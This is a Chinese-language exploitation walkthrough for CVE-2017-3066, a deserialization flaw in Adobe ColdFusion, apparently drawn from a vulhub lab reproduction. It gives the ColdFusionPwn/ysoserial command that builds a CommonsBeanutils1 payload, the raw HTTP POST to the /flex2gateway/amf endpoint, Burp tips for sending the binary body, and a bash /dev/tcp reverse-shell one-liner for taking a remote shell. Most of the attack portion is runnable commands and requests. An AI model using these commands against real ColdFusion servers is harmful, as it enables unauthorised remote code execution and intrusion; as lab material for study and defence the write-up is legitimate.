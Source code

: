 # CVE-2017-3066 Adobe ColdFusion 反序列化漏洞

### 漏洞影响

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

### 复现过程

使用ColdFusionPwn工具来生成POC。

点击下载ColdFusionPwn

**Usage**

`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]`

点击下载ysoserial：http://wiki.0-sec.org/download/ysoserial.zip

【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字


```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
```

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf


```bash
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](images/15889268556664.png)


关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

正确发送方式为：

右击选择Paste From File，上传poc.cer文件

![](images/15889268663079.png)


再到Raw界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择Copy to File保存

![](images/15889268774056.png)


进入容器中，发现/tmp/success已成功创建：

![](images/15889268910263.png)


将POC改成反弹命令，成功拿到shell：

![](images/15889268982966.png)


补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

`bash -i >& /dev/tcp/ip/port 0>&1`

### 参考链接

https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/
